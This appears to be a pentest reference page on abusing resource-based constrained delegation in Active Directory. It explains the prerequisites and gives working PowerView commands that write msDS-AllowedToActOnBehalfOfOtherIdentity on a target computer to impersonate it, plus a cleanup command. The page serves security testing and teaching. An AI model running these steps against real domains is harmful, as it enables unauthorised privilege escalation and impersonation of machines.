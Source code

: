 # Resource-based Constrained Delegation
---

## Vulnerability

[Constrained delegation](/ad/constrained/) can also be resource-based. Instead of putting the attribute `msDS-AllowedToDelegateTo` on the computer which is trusted for delegation, the attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` is populated on the targeted computer. Contrary to [constrained delegation]((/ad/constrained/)), resource-based constrained delegation does not need *SeEnableDelegationPrivilege* (generally a Domain Admin privilege) to be configured. You still need to have *WriteProperty*, *GenericAll*, *GenericWrite* or *WriteDacl* on the target computer to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

## Prerequisites

* Having *WriteProperty*, *GenericAll*, *GenericWrite* or *WriteDacl* rights on the target computer.
* Compromised a domain principal (user or computer) with an SPN associated.

{: .important }
> If you are not local administrator on any computer yet, you could [abuse MachineAccountQuota](/ad/quota/) to join a fake computer to the domain.

## Exploit

The first step of this attack is to modify `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the target computer.

```powershell
# Get domain objects that have needed rights to modify msDS-AllowedToActOnBehalfOfOtherIdentity.
Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|GenericWrite|GenericAll|WriteDacl" }

# Get the SID of the principal with an SPN associated you already compromised.
Get-DomainComputer -Identity "$hostname" -Properties ObjectSid
Get-DomainUser -Identity "$samAccountName" -Properties ObjectSid

# Create a security descriptior with this SID.
$RawSecurityDescriptor = New-Object Security.AccessControl.RawSecurityDescriptor "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$ObjectSid)"
$RawSecurityDescriptorBinary = New-Object byte[] ($RawSecurityDescriptor.BinaryLength)
$RawSecurityDescriptor.GetBinaryForm($RawSecurityDescriptorBinary, 0)

# Set the attribute on the target computer.
Get-DomainComputer -Identity "$hostname" | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity' = $RawSecurityDescriptorBinary} -Verbose

# Verify it worked.
Get-DomainComputer -Identity "$hostname" -Properties msDS-AllowedToActOnBehalfOfOtherIdentity
```

Now you can impersonate the target computer using the principal you already compromised. To do so, you can perform [S4U2Self Abuse](/ad/s4u2self).

**Don't forget** to clean your mess!

```powershell
Get-DomainComputer -Identity "$hostname" | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity
```